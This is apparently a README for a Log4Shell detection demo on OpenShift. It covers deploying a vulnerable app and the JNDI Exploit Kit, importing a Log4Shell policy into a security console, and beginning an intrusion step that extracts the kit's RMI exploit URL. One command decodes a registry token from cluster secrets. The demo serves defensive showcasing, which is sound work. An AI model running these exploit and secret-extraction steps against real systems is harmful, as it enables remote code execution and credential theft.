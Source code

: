 ### 5. Deploy the Exploit

Deploy the JNDI Exploit Kit.

```sh
oc apply -f exploit/deployment
```

## Preparation

From your workstation, verify the connection to the registry:

```sh
REGISTRY=$(oc get route -n openshift-image-registry image-registry -o jsonpath={.spec.host})
REGISTRY_TOKEN="$(oc get secrets -n vulnerable-cicd -o json | jq -r '.items[] | select(.metadata.annotations["kubernetes.io/service-account.name"]=="default" and .type=="kubernetes.io/dockercfg") | .data[".dockercfg"]' | base64 -d | jq -r --arg registry "$REGISTRY" '.["image-registry.openshift-image-registry.svc:5000"].password')"
podman login "$REGISTRY" --username sa --password "$REGISTRY_TOKEN"
```

Run the cleanup script.

```sh
ansible-playbook cleanup/cleanup.yaml
```

Deploy the vulnerable app.

```sh
oc kustomize deployment | oc apply -f -
```

## Demo scenario

### Build the inventory

* Open the Central
* Drill down to **Platform Configuration** > **System policies**
* Click **Import policy**
* Load `policy/log4shell.json`
* Open the **Violations** tab
* Filter by **Policy**: `Log4Shell`

### Intrusion

In a hidden terminal, run the JNDI Exploit Kit to trigger the "Shell spawned by Java application" policy

* Get the RMI URL with:

  ```sh
  oc logs -n exploitkit-log4j deploy/jndi-exploit-kit |grep -A1 "BYPASS WITH EL by @welk1n"
  EXPLOIT_URL="$(oc logs -n exploitkit-log4j deploy/jndi-exploit-kit | grep -A1 "BYPASS WITH EL by @welk1n" | grep rmi:// | sed 's/\x1B\[[0-9;]\{1,\}[A-Za-z]//g')"
  ```
